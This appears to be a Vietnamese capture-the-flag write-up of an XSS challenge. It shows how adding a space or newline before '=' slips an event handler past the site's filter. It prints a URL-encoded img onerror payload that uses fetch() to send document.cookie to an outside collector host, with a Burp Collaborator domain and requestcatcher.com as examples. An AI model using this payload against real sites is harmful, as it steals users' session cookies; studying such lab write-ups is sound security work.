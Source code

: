 - Các string như `on<gì đó>=`, `src=`, `href=`, `<script`, `<object` thường xuất hiện trong các xss payload, giờ đã bị ban. Vậy thì làm sao để nó hợp lệ? Chợt nhận ra thằng web này nó chỉ cấm mình dùng `on<gì đó>=` chứ không cấm mình dùng `on<gì đó> =` (thêm 1 dấu cách vào, thậm chí muốn chắc kèo thêm kí tự `\n` vào cũng được luôn). Thí dụ chúng ta có thể xài một cái payload như này:

![image](https://user-images.githubusercontent.com/61876488/143773209-5d07eee5-5b17-498b-ad75-e9ea595ab3b1.png)

- Dùng payload `w` rồi thử alert một cái chơi:

![image](https://user-images.githubusercontent.com/61876488/143773362-d7eec521-a23b-4005-9ab5-2095e14b2627.png)

Amazing, giờ viết script để gửi cookie về domain của mình thôi!

### 3. Exploit and get flag:

- Ý tưởng về việc steal cookie nó sẽ tóm gọn như này (sử dụng [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)): 

```javascript
fetch('<URL muốn gửi đến>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```
- Nhét nó vào payload để chạy trên web này nó sẽ thành như sau:

```html
%3Cimg%20src/%20%0Donerror%0D%20=%22fetch(%27<URL muốn gửi đến>%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27%20,body:document.cookie})%22%3E
```

- Ví dụ ta có url muốn gửi đến là `https://jxkku1rri7bor6fs1hjaeu4yyp4fs4.burpcollaborator.net` (sử dụng [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) để tạo các domain như này, đồng thời bắt các request gửi về khi payload chạy):

![image](https://user-images.githubusercontent.com/61876488/143773913-d5425ee3-7ba7-4b17-903e-c1745f5c11cb.png)

- Tiếp theo mình sẽ submit cái nguyên si cái payload này cho con bot để lấy flag và tiếp tục sử dụng Burp Collaborator client để bắt request, và đây là nơi cái ngu bắt đầu :).

![image](https://user-images.githubusercontent.com/61876488/143774022-ae572395-e947-444b-85b6-4a4afc68f653.png)
 
- Không hiểu bằng một cách magic nào đó mà lần này nó chỉ gửi mỗi DNS request đến Burp Collaborator client, trong khi thứ ta đang cần là một HTTP request như ảnh trên :(. Mình đã tốn thời gian cho một việc ngu ngốc là gửi đi gửi lại dù biết nó sẽ sai, cho đến khi được người ra đề là anh "0xd0ff9" gõ đầu mới ngộ ra:

![image](https://user-images.githubusercontent.com/61876488/143774177-8f380b14-b5d1-44b8-ab92-56f52b32cda0.png)

Có vẻ có vấn đề gì đó với policy của Chrome phiên bản mới nhất, sau một hồi search gg và hỏi khắp nới thì t biết được policy của chrome mới nhất ko cho phép redirect qua HTTP, do đó Burp Collaborator client sẽ không bắt được HTTP. Nhưng mà trước khi biết được điều này thì t đã mò đại được cái webhook hay ho https://requestcatcher.com/ này để bắt request, và nó đã hoạt động :D
